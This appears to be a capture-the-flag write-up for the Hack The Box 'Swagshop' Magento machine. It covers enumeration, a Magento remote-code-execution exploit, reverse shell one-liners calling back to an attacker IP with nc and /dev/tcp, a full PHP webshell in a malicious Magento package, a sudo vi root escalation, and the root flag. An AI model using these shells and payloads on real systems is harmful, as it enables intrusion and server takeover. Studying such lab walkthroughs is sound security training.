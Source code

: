 Swagshop HTB, IP 10.10.10.140

#Initial Enumeration

1. nmap -sC -sV 10.10.10.140


2. Dirbuster/ Gobuster
  gobuster dir -u 10.10.10.140 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 20 -s 200 -x php,txt,pl,sh,asp,aspx,html,json,py,cfm,rb,cgi -r -k



-----------------------------------------------------------------------------------------------------------------------------------------------
#Port Enumeration
Enumerating port 80 & 443

Magento Version

Google
2014 Magento Demo Store exploit



10.10.10.14/index.php


At this moment, we have an admin user. In order to access the web server's files we need a shell. We would try to see if we can upload a file or send a reverse shell as an email. Additioanally, we would search for possible exploits and here it is
https://www.exploit-db.com/exploits/37811

Modifications:


username and password forme:forme
install date /app/etc/local.xml FOUND!


uncomment this line and sent to Burp Suite





Warning at the URL's parameters. Here we had 7d=7days but intercepting the request with burp suite we found out that there are more parameters to choose. So, changing 7d to 2d, the script worked.





We have an RCE since we can execute a command like whoami so we would try to get a shell.

1. python 37811.py http://10.10.10.140/index.php/admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/csh -i | nc 10.10.14.15 8888 >/tmp/f"


2.python 37811.py http://10.10.10.140/index.php/admin "bash -c 'bash -i >& /dev/tcp/10.10.14.15/8888 0>&1'"


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
kali# python magento_rce.py 'http://10.10.10.140/index.php/admin' "uname -a"
Linux swagshop 4.4.0-146-generic #172-Ubuntu SMP Wed Apr 3 09:00:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


RCE #2 - Magento Package
When the box was released, there was a second way to get RCE via uploading a Magento package. It seems this method has been patched in the current instance of the box, as /download is not longer there. 

From GitHub
This GitHub has a template for a malicious Magento package. I’ll download lavalamp_magento_bd.tgz, and upload it via http://10.10.10.140/downloader/:


Now I can use the webshell it installs:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@kali# curl -d 'c=id' http://10.10.10.140/index.php/lavalamp/index
uid=33(www-data) gid=33(www-data) groups=33(www-data)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

From Scratch
This post gives a good walkthrough for creating a malicious Magento package. I’ll create two files in the following structure:


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@kali# tree .
.
├── errors
│   └── cmd.php
└── package.xml

1 directory, 2 files
cmd.php:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<?php system($_REQUEST['cmd']); ?>
package.xml:
<?xml version="1.0"?>
<package>
<name>backdoor</name>
<version>1.3.3.7</version>
<stability>devel</stability>
<licence>backdoor</licence>
<channel>community</channel>
<extends/>
<summary>Backdoor for magento</summary>
<description>Backdoor for magento</description>
<notes>backdoor</notes>
<authors>
    <author>
        <name>jvoisin</name>
        <user>jvoisin</user>
        <email>julien.voisin@dustri.org</email>
    </author>
</authors>
<date>2015-08-17</date>
<time>13:47:49</time>
<contents>
    <target name="mage">
        <dir>
            <dir name="errors">
                <file name="cmd.php" hash="c214a2fb80bab315fc328a5eff2892b5"/>
            </dir>
        </dir>
    </target>
</contents>
<compatible/>
<dependencies>
    <required>
        <php>
            <min>5.2.0</min>
            <max>6.0.0</max>
        </php>
    </required>
</dependencies>
</package>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



It is important that the hash is created correctly for the php file as follows:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@kali# md5sum errors/cmd.php 
c214a2fb80bab315fc328a5eff2892b5  errors/cmd.php
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Now I’ll use tar to package it up:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

root@kali# tar -czvf package.tgz errors/ package.xml 
errors/
errors/cmd.php
package.xml
root@kali# ls
errors  package.tgz  package.xml
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


And upload the tgz file, and I have RCE through a webshell:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@kali# curl http://10.10.10.140/errors/cmd.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Link:https://0xdf.gitlab.io/2019/09/28/htb-swagshop.html

------------------------------------------------------------------------------------------------------------------------------------------------------------------
#Privilege Escalation
sudo -l


1. sudo vi /var/www/html/NonExistingFile -c ':!/bin/sh'


2. I’ll open a non-existing file with 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@swagshop:/home/haris$ sudo /usr/bin/vi /var/www/html/NonExistingFile.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

GTFOBins’ vi page tells me how to get a shell from here:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
:set shell=/bin/sh
:shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


root flag
c2b087d66e14a652a3b86a130ac56721


